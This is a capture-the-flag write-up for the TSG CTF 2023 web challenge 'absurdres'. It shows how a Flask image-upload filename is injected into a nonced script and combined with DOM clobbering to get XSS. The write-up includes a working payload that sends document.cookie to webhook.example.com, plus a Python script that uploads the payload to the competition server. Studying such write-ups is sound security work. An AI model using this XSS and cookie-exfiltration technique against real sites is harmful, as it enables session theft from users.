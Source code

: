 # TSG CTF 2023 - web/absurdres

- 2 solves / 470 pts
- Author: hakatashi

This flask app has an upload future.

The file extension is not checked, so you can use it to inject payload.

```python
@app.route('/image', methods=['POST'])
def post_image():
    image = request.files.get('image')
    if image is None:
        return 'no image', 400

    filename, *_, extension = os.path.basename(image.filename).split('.')
    if any(c not in ascii_lowercase for c in filename):
        return 'invalid filename', 400

    image_data = image.read()
    image_x2 = Image.open(BytesIO(image_data))
    image_x1 = image_x2.resize((image_x2.width // 2, image_x2.height // 2))

    image_id = md5(image_data).hexdigest()

    db.images.insert_one({
        'image_id': image_id,
        'files': [
            {
                'path': f'images/{filename}.x2.{extension}',
                'title': image.filename,
                'zoom': 2,
            },
            {
                'path': f'images/{filename}.x1.{extension}',
                'title': image.filename,
                'zoom': None,
            },
        ],
    })

    image_x1.save(f'{static_dir}/images/{filename}.x1.{extension}')
    image_x2.save(f'{static_dir}/images/{filename}.x2.{extension}')

    return redirect(url_for('get_image', image_id=image_id))

```

If you upload `file.xxx`, the app returns 500 due to `PIL` library error.
However, `db.images.insert_one` is called before getting error, so the metadata is successfully stored.

On the other hand, this app replaces `![description](image_id)` response contains to `<img srcset="..." alt="...">`.

```python
@app.after_request
def after_request(response):
    response.direct_passthrough = False

    data = response.get_data()
    response.data = re.sub(b'!\\[(.*?)\\]\\((.+?)\\)', replace_img, data)

    return response
```

You need a XSS to get flag.

At `/image/<image_id>`, the app renders a json into nonced `<script>`. This is useful to bypass CSP.

```html
		<script nonce="{{csp_nonce()}}">
			const files = {{files|json|safe}};
```

For example, suppose you upload an image with the following filename.

```
hoge.![+](xx).x
```

The app renders it on `/image/<image_id>` as following:

```javascript
const files = [{"path": "images/hoge.x2.x", "title": "hoge.<img srcset="/assets/images/hoge.x2.x 2x, /assets/images/hoge.x1.x" alt="x">.x", "zoom": 2}, {"path": "images/hoge.x1.x", "title": "hoge.<img srcset="/assets/images/hoge.x2.x 2x, /assets/images/hoge.x1.x" alt="x">.x", "zoom": null}];
```

The syntax of the code above is invalid, so the browser occurs an error.

So, you need to craft valid javascript code carefully through the filename.

I made this payload:

```
hoge.![+](xx).x+alert(1)+"+
```

The app renders it as following:

```javascript
const files = [{"path": "images/hoge.x2.x+alert(1)+\"+", "title": "hoge.<img srcset="/assets/images/hoge.x2.x+alert(1)+"+ 2x, /assets/images/hoge.x1.x+alert(1)+"+" alt="+">.x+alert(1)+\"+", "zoom": 2}, {"path": "images/hoge.x1.x+alert(1)+\"+", "title": "hoge.<img srcset="/assets/images/hoge.x2.x+alert(1)+"+ 2x, /assets/images/hoge.x1.x+alert(1)+"+" alt="+">.x+alert(1)+\"+", "zoom": null}];
```

The syntax of the code above is valid, but there is some undefined variables: `assets`, `images`, `hoge.x2.x`.

Due to undefined variables, the browser still occurs an error.

To resolve this problem, DOM Clobbering is useful.

Because `"string" / AnyType` is evaluated as `NaN`, by defining `assets`, `image`, `hoge.x2.x` with DOM Clobbering, the browser executes the script successfully.

Finally, I wrote this payload:

```
hoge.![+](xx).x+[location=`\\x2f\\x2fwebhook\\x2eexample\\x2ecom\\x2f?`+document[`cookie`]]+"+`<form id=hoge><form id=hoge name=x2><input name=x value=clobbered><a id=assets><a id=images>`+
```

By uploading an image with that payload and report `/image/<image_id>` to bot, you can receive the flag.

## Exploit

```python
import requests
import os
from hashlib import md5

url = "http://34.84.176.251:55416"
# url = "http://localhost:55416"


filename = 'hoge.![+](xx).x+[location=`\\x2f\\x2fwebhook\\x2eexample\\x2ecom\\x2f?`+document[`cookie`]]+"+`<form id=hoge><form id=hoge name=x2><input name=x value=clobbered><a id=assets><a id=images>`+'
content = open("example.png", "rb").read() + os.urandom(8)

image_id = md5(content).hexdigest()

files = {
	'image': (filename, content, "image/png")
}

res = requests.post(f"{url}/image", files = files)

print(image_id)  # report it
```

## Flag

```
TSGCTF{1girl, hacker, in front of computer, hooded, in dark room, table, sitting, keyboard, 8k wallpaper, highly detailed, absurdres}
```
